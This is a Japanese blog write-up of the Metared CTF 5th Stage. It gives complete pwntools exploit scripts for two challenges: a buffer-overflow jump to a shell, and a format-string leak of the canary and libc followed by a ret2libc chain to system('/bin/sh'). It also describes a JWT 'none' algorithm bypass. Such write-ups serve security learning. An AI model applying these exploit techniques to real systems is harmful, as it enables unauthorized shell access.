

# Metared CTF 5th Stage writeup

なぜこの CTF は平日開催なのか、その謎を探るべく（ry

鉄から帰宅後に 5 時間くらい参加したんですが、結局寝たのが朝の 5 時で、それから 15 時間寝続けて起きたら 1 日が終わっていました（は？）

夢では現代文の試験にラノベが出題されていたり、電車内で殺人鬼から逃げたりしていました。
夢の中だとアニメを観ていたはずがいつの間にかその中に入り込んでた、なんて事がよくあります。

成績は正の点数を得た人の中だと 39 位/145 チームでした。てか 100 点以外のまともな問題を 1 問しか解けてない件・・・
平日開催のせいで参加者が少なくて 0 Solves 連発してて開催者が不憫です（何様）。



そろそろ始めましょうかね、では解いた順に

## [pwn] Jump King 100pts

シンプルな Buffer Over Flow です。

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

??? note "Decompiled Code"

    ```cpp
    undefined8 main(void)

    {
      flag = 0;
      puts(" == Jump to Win == ");
      puts(" == Your username: ");
      gets(username);
      if (flag == 0) {
        puts(" == You missed the jump == ");
      }
      else {
        jump();
      }
      return 0;
    }
    ```
    ```cpp
    void jump(void)
    {
      char local_28 [32];
    
      if (flag == 0x4155) {
        puts(" == The jump was successful == ");
        printf(" == Vuln address: %p\n",vuln);
        puts(" == Your password so we can advance: ");
        gets(local_28);
      }
      else {
        printf("Close but the jump is not far enough!");
      }
      return;
    }
    ```
    ```cpp
    void vuln(void)

    {
      puts(" == You got it! == ");
      system("/bin/sh");
      return;
    }
    ```

グローバル変数 `username` の入力に BOF があって `flag` が書き換えられて、`flag` を 0x4155 にできたらさらに `jump` の中にも BOF があります。
`vuln` のアドレスを貰えているので、あとはリターンアドレスを書き換えて `vuln` に飛ばすとシェルが開けます。

なお、64bit なので Stack Align の関係で `ret;` を挟まないといけないんですが、PIE が有効なので貰った `vuln` のアドレスからベースアドレスを計算する必要があります。

```py
from pwn import *

LOCAL=True
if LOCAL:
    p=process("./vuln")
else:
    p=remote("ctf-metared-2021.ua.pt",27159)

elf=ELF("./vuln")
payload=b"A"*64+p32(0x4155)
p.sendline(payload)

p.recvuntil("Vuln address: ")
base_addr=int(p.recvline(),16)-elf.symbols['vuln']
print(hex(base_addr))

payload=b"A"*40
payload+=p64(base_addr+0x0000101a) # ret;
payload+=p64(base_addr+elf.symbols['vuln'])

p.sendlineafter(b"advance: \n",payload)
p.interactive()
```

## [web] Back to Basic Web 100pts

コードを探すとそれっぽい Base64 が 2 つあるので、組み合わせるだけです。

## [web] Vulns? None 100pts

JWT の問題です。Cookie の Token に JWT が入っているんですが、アルゴリズムを `none` に書き換えると改竄チェックがなくなる場合があるって話です。割と有名

あとは `id` を `admin` に変えるとフラグゲット

## [pwn] Leaky Shell 477pts

stripped バイナリです。いやらしい！

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

??? note "Decompiled Code"

    ```cpp
    undefined8 main(void)

    {
      long lVar1;
      int iVar2;
      long in_FS_OFFSET;
      int local_18;
    
      lVar1 = *(long *)(in_FS_OFFSET + 0x28);
      alarm(0x1e);
      setvbuf(stdin,(char *)0x0,2,0);
      setvbuf(stdout,(char *)0x0,2,0);
      fwrite(" == Unseen shell v0.1 ==\n\n",1,0x1a,stdout);
      do {
        check("aveiro","4v31r0P4ss");
        do {
          fwrite("Try again? y/n: ",1,0x10,stderr);
          iVar2 = getchar();
          if (iVar2 == -1) {
            if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
              return 0;
            }
                        /* WARNING: Subroutine does not return */
            __stack_chk_fail();
          }
          local_18 = 0x30;
          while ((local_18 != 10 && (local_18 != -1))) {
            local_18 = getchar();
          }
          if (iVar2 == 0x6e) {
            _Exit(0);
          }
        } while (iVar2 != 0x79);
      } while( true );
    }
    ```
    ```cpp
    void check(char *param_1,char *param_2)

    {
      int iVar1;
      size_t __n;
      long in_FS_OFFSET;
      char password [16];
      char username;
      undefined auStack39 [23];
      long local_10;
    
      local_10 = *(long *)(in_FS_OFFSET + 0x28);
      memcpy(&DAT_001040e0,auStack39,0x30);
      memset(&username,0,0x10);
      memset(password,0,0x10);
      fwrite("User: ",1,6,stdout);
      fgets(&username,0x10,stdin);
      __n = strlen(param_1);
      iVar1 = strncmp(param_1,&username,__n);
      if (iVar1 == 0) {
        fwrite("Password: ",1,10,stdout);
        fgets(password,0x100,stdin);
        __n = strlen(param_2);
        iVar1 = strncmp(password,param_2,__n);
        if (iVar1 == 0) {
          fwrite("Welcome ",1,8,stdout);
          fprintf(stdout,&username);
        }
        else {
          memcpy(auStack39,&DAT_001040e0,0x30);
          fwrite("Invalid password\n",1,0x11,stderr);
        }
      }
      else {
        fwrite("Invalid user: ",1,0xe,stdout);
        fprintf(stdout,&username);
      }
      fputc(10,stdout);
      if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                        /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return;
    }
    ```

`check` 関数を見ると、明らかに Format String Bug があります。が、入力が 0x10 文字しかないのでこれだけでは攻撃が成立しません。
```cpp
else {
    fwrite("Invalid user: ",1,0xe,stdout);
    fprintf(stdout,&username); // Bug
}
```
`password` の入力では Buffer Over Flow もあります。なお、SSP が掛かっているため Canary を置く必要があります。
また、間違えた `password` を入力するとスタックが復元されてしまうため攻撃できないのではないかと思われますが、チェックが先頭の実際のパスワードの長さ分しかないので、先頭にパスワードを置いてその後に任意の文字列を置けます。

という事で、以下のものをリークさせた後、BOF で `system("/bin/sh")` を実行する流れで行きましょう！

1. ベースアドレス
2. libc ベースアドレス
3. Canary

### ベースアドレスのリーク

PIE が有効なので、libc ベースアドレスリークで GOT のアドレスを知るためにベースアドレスが必要です。

スタック上にリターンアドレスが置かれているので、```%14$p``` でリークした後、バイナリ内のオフセットを引けば OK です。

### libc ベースアドレスのリーク

`system` を呼び出すために libc ベースアドレスが必要です。
こちらは `%n$s` で n 番目のアドレスの先を読み取ってくれるのを利用して `fprintf@GOT` の中身、つまり `fprintf` の実際のアドレスをリークしてから libc 内の `fprintf` のオフセットを引く事で求められます。
なお、libc は与えられていないのでリークしたアドレスを利用してから [libc database](https://libc.blukat.me/) で照会しましょう。

64bit でアドレスに NULL を含むため、アドレスは後置しないと出力が途中で止まる事に注意しましょう。
`%10$sAAA[fprintf@GOT's address]` でリークできます。

なぜか `strlen@GOT` とかだと上手く行きませんでした。うーむ

### Canary のリーク

SSP が有効なので、BOF しても Canary が違うと強制終了させられます。という事で先に Canary をリークしましょう。これもスタック上に乗っているので `%12$p` でリークできます。

### Attack!!!

準備は整ったので、後は BOF を利用して `system("/bin/sh")` を実行するだけです。libc 内に `"/bin/sh"` が入っている事を利用すると行けます。

```py
from pwn import *

elf=context.binary=ELF("./leaky")
LOCAL=True
if LOCAL:
    p=process("./leaky")
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
    p=remote("ctf-metared-2021.ua.pt",29722)
    libc=ELF("./libc")

# Stage1: Leak base address
payload=b"%14$p"
p.sendlineafter("User: ",payload)
p.recvuntil("user: ")
base_addr=int(p.recvline(),16)-0x14ba
print(hex(base_addr))
p.sendline("y")

# Stage2: Leak libc base address
payload=b"%10$sAAA"+p64(elf.got["fprintf"]+base_addr)
p.sendlineafter("User: ",payload)
p.recvuntil(b"user: ")
fprintf_addr=u64(p.recv(6).ljust(8,b"\x00"))
libc_base=fprintf_addr-libc.symbols["fprintf"]
print(hex(libc_base))
p.sendline("y")

# Stage3: Leak Canary Value
payload=b"%12$p"
p.sendlineafter("User: ",payload)
p.recvuntil(b"user: ")
canary=int(p.recvline(),16)
print(hex(canary))
p.sendline("y")

# Stage4: Attack!!
p.sendlineafter("User: ","aveiro")
payload=b"4v31r0P4ss"+b"A"*30+p64(canary)+b"A"*8
payload+=p64(base_addr+0x00001016) # ret;
payload+=p64(base_addr+0x000015ab) # pop rdi; ret;
payload+=p64(libc_base+next(libc.search(b"/bin/sh")))
payload+=p64(libc_base+libc.symbols["system"])
p.sendlineafter("Password: ",payload)
p.interactive()
```